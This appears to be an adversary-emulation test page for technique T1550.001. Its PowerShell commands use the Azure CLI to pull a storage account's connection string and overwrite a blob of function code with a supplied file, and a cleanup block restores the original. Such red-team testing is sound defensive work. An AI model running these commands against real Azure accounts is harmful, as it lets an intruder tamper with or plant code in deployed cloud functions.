 
#### Attack Commands: Run with `powershell`! 


```powershell
az login    # Log in to Azure CLI

$allowSharedKeyAccess = az storage account show --name "#{storage_account_name}" --query "allowSharedKeyAccess"

if ($allowSharedKeyAccess -eq "false") {    # $allowSharedKeyAccess could be true or null
    Write-Output "Shared key access is disabled for this storage account."
} else {    
    $connectionString = az storage account show-connection-string --name "#{storage_account_name}" --query connectionString --output tsv

    # Download blob for cleanup
    $tmpOriginalFunctionCode = Join-Path $env:temp/ ("T1550.001_tmp_original_" + "#{blob_name}")
    az storage blob download --connection-string $connectionString --container-name "#{container_name}" --name "#{blob_name}" --file $tmpOriginalFunctionCode --overwrite true

    if ($LASTEXITCODE -eq 0) {
        # Upload new blob version if download of existing blob succeeded
        az storage blob upload --connection-string $connectionString --container-name "#{container_name}" --name "#{blob_name}" --file "#{file_path_blob}" --overwrite true
    } else {
        Write-Output "Download original function code failed."
        exit 1
    }
}
```

#### Cleanup Commands:
```powershell
az login    # Log in to Azure CLI

# Upload previous funciton code
$tmpOriginalFunctionCode = Join-Path $env:temp/ ("T1550.001_tmp_original_" + "#{blob_name}")
az storage blob upload --account-name "#{storage_account_name}" --container-name "#{container_name}" --file $tmpOriginalFunctionCode --name "#{blob_name}" --overwrite true 2>$null

if ($LASTEXITCODE -eq 0) {
    Write-Output "Uploaded original version of function code."

    # Delete tmp original blob file if upload succeeded
    Remove-Item -Path $tmpOriginalFunctionCode -Force -erroraction silentlycontinue
    Write-Output "Deleted tmp original blob file: $($tmpOriginalFunctionCode)"
} else {
    Write-Output "Upload original function code failed."
}
```


